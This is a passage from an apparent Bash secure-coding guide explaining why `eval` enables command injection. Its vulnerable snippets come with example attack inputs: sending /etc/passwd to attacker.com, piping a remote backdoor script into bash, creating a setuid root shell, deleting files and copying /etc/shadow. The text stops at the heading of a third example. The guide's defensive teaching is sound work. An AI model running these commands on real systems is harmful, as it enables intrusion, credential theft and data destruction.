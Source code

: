 ## Eval Command

**Never use `eval` with untrusted input. Avoid `eval` entirely unless absolutely necessary, and even then, seek alternatives first.**

**Rationale:**

- **Code Injection**: `eval` executes arbitrary code, allowing complete system compromise if attacker-controlled
- **No Sandboxing**: Runs with full script privileges (file/network/command access)
- **Bypasses Validation**: Even sanitized input can contain metacharacters enabling injection
- **Difficult to Audit**: Dynamic code construction makes security review nearly impossible
- **Error Prone**: Quoting/escaping requirements complex and frequently implemented incorrectly
- **Better Alternatives Exist**: Almost every use case has safer alternatives

**Understanding eval:**

`eval` performs all expansions on a string, then executes the result.

```bash
# The danger: eval performs expansion TWICE
var='$(whoami)'
eval "echo $var"  # First expansion: echo $(whoami)
                   # Second expansion: executes whoami command!
```

**Attack Example 1: Direct Command Injection**

```bash
# Vulnerable - NEVER DO THIS!
user_input="$1"
eval "$user_input"
```

**Attack:**
```bash
./vulnerable-script.sh 'rm -rf /tmp/*'
./vulnerable-script.sh 'curl -X POST -d @/etc/passwd https://attacker.com/collect'
./vulnerable-script.sh 'curl https://attacker.com/backdoor.sh | bash'
./vulnerable-script.sh 'cp /bin/bash /tmp/rootshell; chmod u+s /tmp/rootshell'
```

**Attack Example 2: Variable Name Injection**

```bash
# Vulnerable - seems safe but isn't!
var_name="$1"
var_value="$2"
eval "$var_name='$var_value'"
```

**Attack:**
```bash
./vulnerable-script.sh 'x=$(rm -rf /important/data)' 'ignored'
./vulnerable-script.sh 'x' '$(cat /etc/shadow > /tmp/stolen)'
```

**Attack Example 3: Sanitization Bypass**
